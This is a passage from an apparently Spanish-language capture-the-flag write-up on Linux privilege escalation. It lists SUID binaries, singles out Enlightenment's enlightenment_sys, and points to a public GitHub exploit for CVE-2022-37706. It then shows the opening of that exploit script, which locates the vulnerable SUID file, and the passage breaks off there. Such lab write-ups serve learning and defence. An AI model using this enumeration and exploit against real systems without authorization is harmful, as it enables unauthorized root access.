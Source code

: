 ```
2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
     2211     44 -rwsr-xr-x   1 root     root          44784 Feb  6 04:49 /usr/bin/newgrp
      230     56 -rwsr-xr-x   1 root     root          55528 Apr  9 08:34 /usr/bin/mount
     5609    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
     2245     68 -rwsr-xr-x   1 root     root          67816 Apr  9 08:34 /usr/bin/su
     5334     84 -rwsr-xr-x   1 root     root          85064 Feb  6 04:49 /usr/bin/chfn
      231     40 -rwsr-xr-x   1 root     root          39144 Apr  9 08:34 /usr/bin/umount
     5337     88 -rwsr-xr-x   1 root     root          88464 Feb  6 04:49 /usr/bin/gpasswd
     5338     68 -rwsr-xr-x   1 root     root          68208 Feb  6 04:49 /usr/bin/passwd
      375     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
     5335     52 -rwsr-xr-x   1 root     root          53040 Feb  6 04:49 /usr/bin/chsh
      484     16 -rwsr-xr-x   1 root     root          14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
```

Vemos estas 3 lineas que son interesantes...

```
17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
```

Por lo que se ve utiliza `enlightenment` y si buscamos un exploit del mismo lo encontramos en GitHub...

URL = https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

Nos lo descargamos y nos lo pasamos a la maquina victima...

```shell
nano exploit.sh
```

> exploit.sh

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi
```